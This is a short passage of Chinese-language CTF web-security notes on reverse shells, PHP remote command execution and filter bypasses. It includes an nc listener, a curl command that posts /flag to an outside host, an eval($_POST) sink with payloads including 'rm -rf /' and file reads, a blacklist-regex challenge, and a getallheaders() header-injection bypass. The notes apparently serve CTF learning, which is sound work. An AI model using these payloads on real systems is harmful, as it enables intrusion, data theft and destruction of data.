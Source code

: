 **反弹shell命令**

- 使用花生壳，内网为kali地址及端口，外部为某域名
- kali中`nc -lnvp 5555`即可

```bash
cat /flag | curl -d @- https://xx.xx.xx.xx:port # @-表示从标准输入读取, -d指定发送数据
```



### 远程命令执行

RCE，Remote Command Execution

```PHP
eval($_POST['what']);
```

**利用**

```PHP
what=<?php system('rm -rf /'); ?> // 删除系统所有文件
what=echo getcwd(); // 查看当前目录
what=print_r(scandir(getcwd())); // 查看当前目录所有文件和目录
what=print_r(scandir('../'));    // 查看上一目录所有文件和目录
what=echo file_get_contents('filename.txt'); // 查看文件内容
```

**无参函数RCE** 

```PHP
if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\/|zip:\/\//i', $cmd))
// 禁用协议
if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $cmd))
// 只能为无参函数嵌套形式: func(fun(h()));
if (!preg_match('/pwd|tac|cat|chr|ord|ls|dir|conv|info|hex|bin|rand|array|source|file|cwd|dfined|system|assert|sess/i',$cmd))
// 黑名单过滤cmd

@eval($cmd);
```

**getallheaders()绕过————**返回当前请求的所有请求头信息（限Apache）

`var_dump(end(getallheaders()));`测试是否可以获取到返回信息

```PHP
?cmd=eval(end(getallheaders())); // url

// 及在burp数据包下最后一行加入以下任何一个进行命令执行
sky: phpinfo();
sky: system("ls");
```

### 常见绕过

**MD5绕过**

